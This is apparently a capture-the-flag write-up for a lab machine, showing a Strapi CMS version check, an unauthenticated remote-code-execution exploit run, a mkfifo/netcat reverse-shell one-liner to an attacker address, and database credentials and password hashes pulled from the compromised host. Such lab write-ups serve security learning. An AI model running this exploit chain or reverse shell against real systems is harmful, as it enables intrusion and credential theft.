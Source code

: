 Visiting the subdomain reveals a page that just says "Welcome"
![[Pasted image 20210901155418.png]]
Enumerate the version for the webapp by visiting /admin/init
![[Pasted image 20210901161003.png]]
Do some googling and find this version is vulnerable to unauthenticated rce...
pick a cve and run it with a rev shell payload for a shell as user strapi
```bash
./rce.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwNTMwNzA4LCJleHAiOjE2MzMxMjI3MDh9.JSI1unziJX3Xz37dUkglkqQz_sIaJHElqCcbrfhxT7k


$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.107 9001 >/tmp/f
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```
```bash
c -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.107] from (UNKNOWN) [10.10.11.105] 53326
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
```

## DB creds
Poking around the strapi config files reveals some db creds:
```json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```
dumb a password hash from the strapi db:
```sql
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
| id | username | email                 | password                                                     | resetPasswordToken | blocked |
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
|  3 | admin    | admin@horizontall.htb | $2a$10$0zmm/ka8afTfEljyx.SI7.zNXeqelWiA3wL5TnVzeymNi9lMziOoe | NULL               |    NULL |
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
```
and another:
```mysql_native_password | *FFE7D25121423869EB3DCC48D3E8C99C6E3530A7```